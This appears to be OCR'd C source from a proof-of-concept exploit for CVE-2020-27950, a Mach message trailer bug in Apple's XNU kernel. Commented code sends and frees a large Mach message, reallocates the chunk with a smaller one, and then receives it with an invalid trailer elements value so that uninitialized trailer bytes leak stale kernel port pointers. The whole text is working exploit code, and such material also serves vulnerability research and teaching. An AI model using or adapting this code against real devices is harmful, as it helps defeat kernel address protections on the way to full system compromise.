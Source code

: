 ```c
*
* Step A: Send the "big" message → allocate a kalloc.1024 ipc_kmsg that contains many
*         kernel pointers (ipc_port*) in its descriptor array.
*/
printf("[*] Sending message 1\n");
mach_msg(&big_message->header,
MACH_SEND_MSG,
big_size,            // send size
0,                   // no receive
MACH_PORT_NULL,
MACH_MSG_TIMEOUT_NONE,
MACH_PORT_NULL);

/*
* Step B: Immediately receive/discard it with a zero-sized buffer.
*         This frees the kalloc chunk without copying descriptors back,
*         leaving the kernel pointers resident in freed memory (stale).
*/
printf("[*] Discarding message 1\n");
mach_msg((mach_msg_header_t *)0,
MACH_RCV_MSG,        // try to receive
0,                   // send size 0
0,                   // recv size 0 (forces error/free path)
port,
MACH_MSG_TIMEOUT_NONE,
MACH_PORT_NULL);

/*
* Step C: Reuse the same size-class with the "small" message (fewer descriptors).
*         We slightly bump msgh_size by +4 so that when the kernel appends
*         the trailer, the trailer's uninitialized field `msgh_ad` overlaps
*         the low 4 bytes of a stale ipc_port* pointer from the prior message.
*/
small_message->header.msgh_size = small_size + sizeof(uint32_t); // +4 to shift overlap window
printf("[*] Sending message 2\n");
mach_msg(&small_message->header,
MACH_SEND_MSG,
small_size + sizeof(uint32_t),
0,
MACH_PORT_NULL,
MACH_MSG_TIMEOUT_NONE,
MACH_PORT_NULL);

/*
* Step D: Receive message 2 and request an invalid trailer elements value (5).
*         - Bits 24..27 (MACH_RCV_TRAILER_MASK) are nonzero → the kernel computes a trailer.
*         - Elements=5 doesn't match any valid enum → REQUESTED_TRAILER_SIZE(...) falls back to max size.
*         - BUT init of certain fields (like `ad`) is guarded by >= MACH_RCV_TRAILER_AV (7),
*           so with 5, `msgh_ad` remains uninitialized → stale bytes leak.
*/
memset(buffer, 0, big_size + MAX_TRAILER_SIZE);
printf("[*] Reading back message 2\n");
mach_msg((mach_msg_header_t *)buffer,
MACH_RCV_MSG | MACH_RCV_TRAILER_ELEMENTS(5), // core of CVE-2020-27950
0,
small_size + sizeof(uint32_t) + MAX_TRAILER_SIZE, // ensure room for max trailer
port,
MACH_MSG_TIMEOUT_NONE,
MACH_PORT_NULL);

// Trailer begins right after the message body we sent (small_size + 4)
trailer = (mach_msg_mac_trailer_t *)(buffer + small_size + sizeof(uint32_t));
```